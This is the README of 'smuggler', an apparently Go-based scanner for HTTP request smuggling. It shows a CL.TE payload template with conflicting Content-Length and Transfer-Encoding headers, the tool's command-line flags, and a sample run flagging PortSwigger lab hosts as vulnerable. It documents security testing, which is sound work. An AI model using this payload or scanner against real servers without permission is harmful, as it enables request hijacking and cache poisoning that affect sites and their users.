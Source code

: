 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Templates:
```
POST {{.Path}} HTTP/1.1
Host: {{.Host}}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G

```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -proxy string
    	Set the Golang proxy, for example: http://example.com:8080
  -threads int
    	Number of concurrent targets to test (default 5)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test 
https://ac291f541e8bb695c0338e2700cd00fb.web-security-academy.net/ is vulnerable
https://ac761f071e92b6b8c0448fee001c0096.web-security-academy.net/ is vulnerable
https://acb71f6e1f079d25c08104be00290033.web-security-academy.net/ is vulnerable
```
